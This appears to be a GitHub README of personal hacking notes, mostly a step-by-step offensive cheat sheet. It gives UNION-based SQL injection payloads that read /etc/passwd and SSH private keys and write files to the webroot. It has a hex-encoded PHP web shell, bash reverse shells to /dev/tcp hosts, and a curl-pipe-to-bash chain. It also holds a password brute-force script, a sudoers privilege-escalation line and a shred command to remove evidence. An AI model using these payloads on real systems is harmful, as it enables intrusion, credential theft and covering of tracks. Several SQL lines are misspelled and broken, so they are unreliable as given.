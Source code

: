 # hacking-notes


## Conversion

In a SQL Injecto to space satinization you can convert PHP code into Hexadecimal

```bash
echo '<?php system("bash -i >& /dev/tcp/10.9.4.202/4443 0>&1") ?>' | xxd -p -u | tr -d '\n'
```

How to convert from hexadecimal to ASCII using xxd command:

echo "your hexadecimal code here" | xxd -ps -r; echo

## Kali Linux

Change Kali Linux keyboard language to Spanish

```bash
setxkbmap es sundeadkeys
```

## Rootkits

How to monitor for linux rootkits

1. Make rkhunter database
```bash
rkhunter --propupd 
```

2. Launch rkhunter
```bash 
rkhunter --enable all
```

## SQL Injection

How to guess number of columns of a table
```sql
whatever' order by <nº> -- -
``` 

If you knwo the number of columns you can make a selection to test your sql injection
```sql
whatever' union select 1,"test" -- -
```

Load a file in a SQLinjection
```sql
whatever ' union select 1,load_file("/etc/password")-- -

whatever ' union select 1,load_file("/home/user/.ssh/id_rsa")-- -

whatever ' union select 1,load_file("/home/user/.ssh/id_rsa.pub")-- -

whatever ' union select 1,load_file("/etc/group")-- -
```

How to know what database exists in a Sql Injection, p.e. with 2 databases
```
whatever ' union select 1,shcema_name from information_scheam.schemadata limit 1,1 -- -

whatever ' union select 1,shcema_name from information_scheam.schemadata limit 2,1 -- -
```

How to list the tables of a database p.g. for the database webapp
```sql
whatever' union select 1,tabla_name from information_sceham.tables where table_schema="webapp" limit 1,1 -- -
```

How to get information of a table from the database name:
```sql
whatever' union select 1, column:name from information_scheam.columns where table_schema="webapp" and table_name="queue" limit 1,1
```

How to get information of columns of a table from the table name:
```sql
whatever' union select 1, group-concat(userID,0x3a,queueNum) from queue -- -
```

How to write into a file with a SQL Injection
```sql
whatever' union select 1,"I was here" INTO OUTFILE "/var/www/html/test.php"-- -
```

How to inject PHP code, in this case remote command execution into an sqlinjection with satinatization:

1. covert a string into hexadecimal and inject the code on the wesite
```bash
echo '<?php echo "<pre>" . shell_exec($_REQUEST["cmd"]). "</pre>"; ?>' | xxd -ps | tr -d "\n"
```
2. Create a reverse shell, reverseh.sh
```bash
#!/bin/bash

bash -i >& /dev/tcp/<your-local-ip>/4443 0>&1
```

3. Share a server with simpleHttpServer
```bash
python -m SimpleHTTPServer 80
```

4. Listen with netcat on your machine to the port 4443
```bash
nc -lvp 4443
```

4. Curl your reverse.sh into your remote execution injection (point 1) and pipe to bash
```bash 
http://<remote-ip>/remote.php?cmd=curl <your-local-ip>/reverse.sh | bash 
```


## System Commands

Get users that login into the system

```bash
last
```

Launch a pseudo-control
1. In the remote shell
```bash
script /dev/null -c bash

(and press Control + Z)
```

2. In your shell:
```bash
stty raw -echo

nc -nlvp 443

# <press fg>

reset

# Consolidate your terminal
xterm

# To be able to make Control + C and Control + L
export TERM=xterm
export SHELL=bash

# Get correct proporcion
stty rows 52 columns 197
```

# Remove Evidences
```
shred -zun -S -v{file.php, file2.xt}
```

# Grep users that exist at system lvel
```bash
cat /etc/passwd | grep "sh$"
```

# How to forwared a remote port to your local machine using ssh and dont login in your system
Execute the following in the remote machine.
```ssh
ssh -R 3000:127.0.0.1:3000 <your-user>@<your-ip> -N -f
```

# PENETRATION TESTING STEPS
1 . Make a ping and try to detect the OS of the machine
```ssh
ping -c 10 <ip>
```

2. Scan for open ports
```ssh
nmap -p- --open -T5 -v -n <remote-ip>
```

3. Detect services running on open ports
```
nmap -sC -sV -p <ports separated by commas>
```

4. In case of a web server try wfuzz:
```bash
wfuzz -c --hc=404 -w <dictionary> http://<remote-ip>/FUZZ1
```

5. Run a dictionary agains the web:
```
wfuzz -w dictionary.txt http://<remote-ip>
```

6. A script to make a brute force to a website asking credentials with a prompt
```bash
#!/bin/bash

function ctrl_c(){
  echo -e "\n[!] Exiting..\n"
  tput cnorm; exit 1;
  exit 1
}

trap ctrl_c INT

# Hide a cursor
tput civis

for password in $(cat diccionario.txt); do
  curl -s -X GET http://<ip>/inferno --user admin:$password | html2text| grep "Unauthorized" &>/dev/null
  
  if [ "$(echo $?)" -ne "0" ]; then
    echo -e "\n[*] THe password of user admin is $password\n"
    exit 0
  fi
done; tput cnorm;

```
7. How to authenticate using curl on a website with user/password promt:
```
curl -X GET -s http://<ip>/admin --user user:password
```

# Testing estenografia 
```
steghide info <picture.jpg>
```
# Add a user to sudoers to scale privileges thanks of having "tee" command with suid
```sudo
echo "<user> ALL=(ALL:ALL) ALL" | sudo tee -a /etc/sudoers
```

